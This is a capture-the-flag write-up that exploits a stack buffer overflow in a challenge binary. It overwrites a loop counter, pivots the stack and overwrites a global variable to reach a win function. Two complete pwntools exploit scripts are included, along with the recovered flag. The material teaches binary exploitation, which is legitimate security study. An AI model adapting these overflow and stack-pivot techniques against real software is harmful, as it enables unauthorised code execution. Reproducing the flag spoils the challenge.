 # Description

![](../media/Screen%20Shot%202024-06-12%20at%208.42.56%20PM.png)

## analyzing the binary
first let's decompile the binary so we can figure out what it does, it reads input from user and then print an ascii art

![](../media/Screen%20Shot%202024-06-10%20at%2010.49.03%20PM.png)

there is also a `win` function that when called print the output of `flag.txt` file but only if the global variable `user == "admin"`

![](../media/Screen%20Shot%202024-06-12%20at%208.44.18%20PM.png)


# solution
### user input
the user input is provided in the form of chunks of 8 bytes, the last iteration is when `i > 105` and that will be when `i == 112`, so we can overflow the buffer but we only have 4 bytes after the buffer to override.

when we examine the assembly code we find that `i` is at the position `RBP - 0x4` and `buffer` is at `RBP - 0x70` meaning that `i` is lower in the stack so we can override it.

now that we control the loop counter, we can override the return value by calculating the offset between `buffer` and the return value and override `i` accordingly.

### calculating the offset
we can use gdb for this, first we set a break point just before the end of `vuln`, run and provide random input, then we can print the stack and evaluate the offset.


![](../media/Screen%20Shot%202024-06-12%20at%201.20.04%20AM.png)
![](../media/Screen%20Shot%202024-06-12%20at%201.13.55%20AM.png)

```
offset = 112
```

### overriding the return address
now we just need to send the payload to overflow `buffer` and override `i` with `offset`, and then send the new return address

```py
from pwn import *

offset = 112
with gdb.debug('./challenge', gdbscript='', api=True) as p:
    p.gdb.Breakpoint("*vuln+107", temporary=False); # pop rbp
    p.gdb.continue_nowait()

    p.recv()
    for i in range(13):
        p.send(chr(ord('a') + i).encode() * 8);
    p.send(b'AAAA' + p32(offset));
    p.send(b'B' * 8);
    p.gdb.wait()
    p.interactive()
```
![](../media/Screen%20Shot%202024-06-12%20at%208.31.59%20PM.png)

### overriding `user`

we have successfully override the return address but we still need to override `user` before jumping to `win`, in order to do that we will performe a stack pivote to allow us to override more address, first we jump to gadget `sub    rsp,0x70` in `vuln`, `RBP` will now point to the base of `main` since it was poped before `ret`, and we can now execute the `vuln` function but with `buffer` and `i` at a slightly lower position in stack

```
                   ┌────────────────────┐◄────── RSP                           ┌────────────────────┐◄────── RSP
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
RBP - 0x70 ───────►│                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                   RBP - 0x70 ───────►│                    │           
                   │    vuln's stack    │                                      │    vuln's stack    │           
                   │                    │                                      │                    │           
                   │                    │       After poping RBP and           │                    │           
                   │                    │       jumping to gadget              │                    │           
                   │                    │       ───────────────────────►       │                    │           
                   │                    │                                      │                    │           
 RBP - 0x4 ───────►│                    │                                      │                    │           
                   ├────────────────────┤ ◄────── RBP                          ├────────────────────┤           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │    main's stack    │                                      │    main's stack    │           
                   │                    │                                      │                    │           
                   │                    │                    RBP - 0x4 ───────►│                    │           
                   └────────────────────┘                                      └────────────────────┘◄────── RBP 
```

this will make us able to override the return address and also the address after it and also an arbitrary offset from `buffer` by overriding `i`.

the next step is to override `RBP` with `&user + 0x70` then jump to `LEA        RSI ,[RBP - 0x70]` to override `user` then jump to `win` and voila!

![](../media/Screen%20Shot%202024-06-12%20at%209.38.39%20PM.png)

```py
from pwn import *                                                                                                                 
                                     
offset = 112
offset2 = 0x00007fff9054e5d8 - 0x7fff9054e500
                                     
                                     

with remote('localhost',14124) as p: 
    time.sleep(0.1)                                                       
    p.recv()                                                               
                                                                           
    for i in range(13):                                                    
        p.send(chr(ord('a') + i).encode() * 8);               
    p.send(b'AAAA' + p32(offset));
    p.send(p64(0x004011f4)); # sub rsp, 0x70
    #p.send(b'B' * 8);
                                     
    p.recv()
    for i in range(10):                                                    
        p.send(chr(ord('a') + i).encode() * 8);
    p.send(p64(0x404070)); # &user - 0x70
    p.send(p64(0x40122e)); # call read
    p.send(b'B' * 8);
    p.send(b'AAAA' + p32(offset2 - 8));
    p.send(p64(0x00401160)); # win addr
                                     
    p.recv()                                                               
    p.send(b'admin\x00\x00\x00')
    print(p.recv())                                                        
    p.interactive()

#flag: AKASEC{y4pp1n6_15_50m371m35_u53full_9b9b3d9}

```


